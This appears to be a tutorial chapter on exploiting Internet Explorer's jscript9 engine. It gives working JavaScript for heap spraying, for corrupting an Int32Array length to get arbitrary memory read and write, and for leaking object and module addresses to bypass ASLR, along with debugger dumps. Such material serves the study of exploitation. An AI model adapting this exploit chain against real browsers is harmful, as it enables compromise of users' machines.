









As we said before, if we can modify a single byte at an arbitrary address, we can get read/write access to the entire process address space. The trick is to modify the length field of an array (or similar data structure) so that we can read and write beyond the end of the array in normal javascript code.
We need to perform two heap sprays:
- LargeHeapBlocks and a raw buffer (associated with an ArrayBuffer) on the heap.
- Arrays and Int32Arrays allocated on IE’s custom heap.
Here’s the relevant javascript code:
<html>
<head>
<script language="javascript">
(function() {
alert("Starting!");
//-----------------------------------------------------
// From one-byte-write to full process space read/write
//-----------------------------------------------------
a = new Array();
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte ArrayBuffer (buf)
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
for (i = 0; i < 0x200; ++i) {
a[i] = new Array(0x3c00);
if (i == 0x80)
buf = new ArrayBuffer(0x58); // must be exactly 0x58!
for (j = 0; j < a[i].length; ++j)
a[i][j] = 0x123;
}
// 0x0: ArrayDataHead
// 0x20: array[0] address
// 0x24: array[1] address
// ...
// 0xf000: Int32Array
// 0xf030: Int32Array
// ...
// 0xffc0: Int32Array
// 0xfff0: align data
for (; i < 0x200 + 0x400; ++i) {
a[i] = new Array(0x3bf8)
for (j = 0; j < 0x55; ++j)
a[i][j] = new Int32Array(buf)
}
// vftptr
// 0c0af000: 70583b60 031c98a0 00000000 00000003 00000004 00000000 20000016 08ce0020
// 0c0af020: 03133de0 array_len buf_addr
// jsArrayBuf
alert("Set byte at 0c0af01b to 0x20");
alert("All done!");
})();
</script>
</head>
<body>
</body>
</html>
The two heap sprays are illustrated in the following picture:

There are a few important things to know. The goal of the first heap spray is to put a buffer (associated with an ArrayBuffer) between LargeHeapBlocks. LargeHeapBlocks and buffers are allocated on the same heap, so if they have the same size they’re likely to be put one against the other in memory. Since a LargeHeapBlock is 0x58 bytes, the buffer must also be 0x58 bytes.
{kind=link}
The objects of the second heap spray are allocated on a custom heap. This means that even if we wanted to we couldn’t place, say, an Array adjacent to a LargeHeapBlock.
The Int32Arrays of the second heap spray reference the ArrayBuffer buf which is associated which the raw buffer allocated in the first heap spray. In the second heap spray we allocate 0x400 chunks of 0x10000 bytes. In fact, for each chunk we allocate:
- an Array of length 0x3bf8 ==> 0x3bf8*4 bytes + 0x20 bytes for the header = 0xf000 bytes
- 0x55 Int32Arrays for a total of 0x30*0x55 = 0xff0.
We saw that an Int32Array is 0x24 bytes, but it’s allocated in blocks of 0x30 bytes so its effective size is 0x30 bytes.
As we were saying, a chunk contains an Array and 0x55 Int32Arrays for a total of 0xf000 + 0xff0 = 0xfff0 bytes. It turns out that Arrays are aligned in memory, so the missing 0x10 bytes are not used and each chunk is 0x10000 bytes.
The javascript code ends with
alert("Set byte at 0c0af01b to 0x20");First of all, let’s have a look at the memory with VMMap:

As you can see, 0xc0af01b is well inside our heap spray (the second one). Let’s have a look at the memory inside WinDbg. First, let’s look at the address 0xc0a0000 where we should find an Array:
{kind=link}

Note that the second heap spray is not exactly as we would expect. Let’s look at the code again:
{kind=link}
for (; i < 0x200 + 0x400; ++i) {
a[i] = new Array(0x3bf8)
for (j = 0; j < 0x55; ++j)
a[i][j] = new Int32Array(buf)
}
Since in each chunk the 0x55 Int32Arrays are allocated right after the Array and the first 0x55 elements of that Array point to the newly allocated Int32Arrays, one would expect that the first element of the Array would point to the first Int32Array allocated right after the Array, but that’s not what happens. The problem is that when the second heap spray starts the memory has a bit of fragmentation so the first Arrays and Int32Arrays are probably allocated in blocks which are partially occupied by other objects.
This isn’t a major problem, though. It just means that we need to be careful with our assumptions.
Now let’s look at address 0xc0af000. There, we should find the first Int32Array of the chunk:

The Int32Array points to a raw buffer at 429af28, which is associated with the ArrayBuffer buf allocated on the regular heap together with the LargeHeapBlocks. Let’s have a look at it:
{kind=link}

This picture shows a disconcerting situation. First of all, the first two LargeHeapBlocks aren’t adjacent, which is a problem because the space between them is pretty random. Second, each LargeHeapBlock points to the next block, contrarily to what we saw before (where each block pointed to the previous one).
{kind=link}
Let’s reload the page in IE and try again:

The LargeHeapBlocks point forwards, again. Let’s try another time:
{kind=link}

As you can see, this time we don’t even have the Int32Arrays at 0xca0f000. Let’s try one last time:
{kind=link}

We can conclude that the LargeHeapBlocks tend to point forwards. I suspect that the first time they pointed backwards because the LargeHeapBlocks were allocated in reverse order, i.e. going towards lower addresses.
{kind=link}
We saw a few ways things may go wrong. How can we cope with that? I came up with the solution of reloading the page. We can perform some checks to make sure that everything is alright and, if it isn’t, we can reload the page this way:
(function() {
.
.
.
if (check fails) {
window.location.reload();
return;
}
})();
We need to wrap the code into a function so that we can use return to stop executing the code. This is needed because reload() is not instantaneous and something might go wrong before the page is reloaded.
As we already said, the javascript code ends with
// vftptr
// 0c0af000: 70583b60 031c98a0 00000000 00000003 00000004 00000000 20000016 08ce0020
// 0c0af020: 03133de0 array_len buf_addr
// jsArrayBuf
alert("Set byte at 0c0af01b to 0x20");
Look at the comments. The field array_len of the Int32Array at 0xc0af000 is initially 0x16. After we write 0x20 at 0xc0af01b, it becomes 0x20000016. If the raw buffer is at address 0x8ce0020, then we can use the Int32Array at 0xc0af000 to read and write throughout the address space [0x8ce0020, 0x8ce0020 + 0x20000016*4 – 4].
To read and write at a given address, we need to know the starting address of the raw buffer, i.e. 0x8ce0020 in the example. We know the address because we used WinDbg, but how can we determine it just with javascript?
We need to do two things:
- Determine the Int32Array whose array_len we modified (i.e. the one at 0xc0af000).
- Find buf_addr by exploiting the fact that LargeHeapBlocks point to the next blocks.
Here’s the code for the first step:
// Now let's find the Int32Array whose length we modified.
int32array = 0;
for (i = 0x200; i < 0x200 + 0x400; ++i) {
for (j = 0; j < 0x55; ++j) {
if (a[i][j].length != 0x58/4) {
int32array = a[i][j];
break;
}
}
if (int32array != 0)
break;
}
if (int32array == 0) {
alert("Can't find int32array!");
window.location.reload();
return;
}
You shouldn’t have problems understanding the code. Simply put, the modified Int32Array is the one with a length different from the original 0x58/4 = 0x16. Note that if we don’t find the Int32Array, we reload the page because something must have gone wrong.
Remember that the first element of the Array at 0xc0a0000 doesn’t necessarily points to the Int32Array at 0xc0af000, so we must check all the Int32Arrays.
It should be said that it’s not obvious that by modifying the array_len field of an Int32Array we can read/write beyond the end of the raw buffer. In fact, an Int32Array also points to an ArrayBuffer which contains the real length of the raw buffer. So, we’re just lucky that we don’t have to modify both lengths.
Now it’s time to tackle the second step:
// This is just an example.
// The buffer of int32array starts at 03c1f178 and is 0x58 bytes.
// The next LargeHeapBlock, preceded by 8 bytes of header, starts at 03c1f1d8.
// The value in parentheses, at 03c1f178+0x60+0x24, points to the following
// LargeHeapBlock.
//
// 03c1f178: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
// 03c1f198: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
// 03c1f1b8: 00000000 00000000 00000000 00000000 00000000 00000000 014829e8 8c000000
// 03c1f1d8: 70796e18 00000003 08100000 00000010 00000001 00000000 00000004 0810f020
// 03c1f1f8: 08110000(03c1f238)00000000 00000001 00000001 00000000 03c15b40 08100000
// 03c1f218: 00000000 00000000 00000000 00000004 00000001 00000000 01482994 8c000000
// 03c1f238: ...
// We check that the structure above is correct (we check the first LargeHeapBlocks).
// 70796e18 = jscript9!LargeHeapBlock::`vftable' = jscript9 + 0x6e18
var vftptr1 = int32array[0x60/4],
vftptr2 = int32array[0x60*2/4],
vftptr3 = int32array[0x60*3/4],
nextPtr1 = int32array[(0x60+0x24)/4],
nextPtr2 = int32array[(0x60*2+0x24)/4],
nextPtr3 = int32array[(0x60*3+0x24)/4];
if (vftptr1 & 0xffff != 0x6e18 || vftptr1 != vftptr2 || vftptr2 != vftptr3 ||
nextPtr2 - nextPtr1 != 0x60 || nextPtr3 - nextPtr2 != 0x60) {
alert("Error!");
window.location.reload();
return;
}
buf_addr = nextPtr1 - 0x60*2;
Remember that int32array is the modified Int32Array at 0xc0af000. We read the vftable pointers and the forward pointers of the first 3 LargeHeapBlocks. If everything is OK, the vftable pointers are of the form 0xXXXX6e18 and the forward pointers differ by 0x60, which is the size of a LargeHeapBlock plus the 8-byte allocation header. The next picture should help clarify things further:

Now that buf_addr contains the starting address of the raw buffer, we can read and write everywhere in [buf_addr, buf_addr + 0x20000016*4]. To have access to the whole address space, we need to modify the Int32Array at 0xc0af000 again. Here’s how:
{kind=link}
// Now we modify int32array again to gain full address space read/write access.
if (int32array[(0x0c0af000+0x1c - buf_addr)/4] != buf_addr) {
alert("Error!");
window.location.reload();
return;
}
int32array[(0x0c0af000+0x18 - buf_addr)/4] = 0x20000000; // new length
int32array[(0x0c0af000+0x1c - buf_addr)/4] = 0; // new buffer address
function read(address) {
var k = address & 3;
if (k == 0) {
// ####
return int32array[address/4];
}
else {
alert("to debug");
// .### #... or ..## ##.. or ...# ###.
return (int32array[(address-k)/4] >> k*8) |
(int32array[(address-k+4)/4] << (32 - k*8));
}
}
function write(address, value) {
var k = address & 3;
if (k == 0) {
// ####
int32array[address/4] = value;
}
else {
// .### #... or ..## ##.. or ...# ###.
alert("to debug");
var low = int32array[(address-k)/4];
var high = int32array[(address-k+4)/4];
var mask = (1 << k*8) - 1; // 0xff or 0xffff or 0xffffff
low = (low & mask) | (value << k*8);
high = (high & (0xffffffff - mask)) | (value >> (32 - k*8));
int32array[(address-k)/4] = low;
int32array[(address-k+4)/4] = high;
}
}
Let’s look at the comments again:
// vftptr
// 0c0af000: 70583b60 031c98a0 00000000 00000003 00000004 00000000 20000016 08ce0020
// 0c0af020: 03133de0 array_len buf_addr
// jsArrayBuf
In the code above we set array_len to 0x20000000 and buf_addr to 0. Now we can read/write throughout [0, 20000000*4].
Note that the part of read() and write() that’s supposed to handle the case when address is not a multiple of 4 was never tested, because it wasn’t needed after all.
Leaking the address of an object
We need to be able to determine the address of an object in javascript. Here’s the code:
for (i = 0x200; i < 0x200 + 0x400; ++i)
a[i][0x3bf7] = 0;
// We write 3 in the last position of one of our arrays. IE encodes the number x
// as 2*x+1 so that it can tell addresses (dword aligned) and numbers apart.
// Either we use an odd number or a valid address otherwise IE will crash in the
// following for loop.
write(0x0c0af000-4, 3);
leakArray = 0;
for (i = 0x200; i < 0x200 + 0x400; ++i) {
if (a[i][0x3bf7] != 0) {
leakArray = a[i];
break;
}
}
if (leakArray == 0) {
alert("Can't find leakArray!");
window.location.reload();
return;
}
function get_addr(obj) {
leakArray[0x3bf7] = obj;
return read(0x0c0af000-4);
}
We want to find the Array at 0xc0a0000. We proceed like this:
- We zero out the last element of every Array (a[i][0x3bf7] = 0).
- We write 3 at 0xc0af000-4, i.e. we assign 3 to the last element of the Array at 0xc0a0000.
- We find the Array whose last element is not zero, i.e. the Array at 0xc0a0000 and make leakArray point to it.
- We define function get_addr() which:
- takes a reference, obj, to an object
- writes obj to the last element of leakArray
- reads obj back by using read(), which reveals the real value of the pointer
The function get_addr is very important because lets us determine the real address in memory of the objects we create in javascript. Now we can determine the base address of jscript9.dll and mshtml.dll as follows:
// At 0c0af000 we can read the vfptr of an Int32Array:
// jscript9!Js::TypedArray<int>::`vftable' @ jscript9+3b60
jscript9 = read(0x0c0af000) - 0x3b60;
.
.
.
// Here's the beginning of the element div:
// +----- jscript9!Projection::ArrayObjectInstance::`vftable'
// v
// 70792248 0c012b40 00000000 00000003
// 73b38b9a 00000000 00574230 00000000
// ^
// +---- MSHTML!CBaseTypeOperations::CBaseFinalizer = mshtml + 0x58b9a
var addr = get_addr(document.createElement("div"));
mshtml = read(addr + 0x10) - 0x58b9a;
The code above is very simple. We know that at 0xc0af000 we have an Int32Array and that its first dword is the vftable pointer. Since the vftable of a TypedArray<int> is in the module jscript9.dll and is at a fixed RVA, we can easily compute the base address of jscript9 by subtracting the RVA of the vftable from its actual address.
Then we create a div element, leak its address and note that at offset 0x10 we can find a pointer to MSHTML!CBaseTypeOperations::CBaseFinalizer, which can be expressed as
mshtml + RVA = mshtml + 0x58b9a
As before, we can determine the base address of mshtml.dll with a simple subtraction.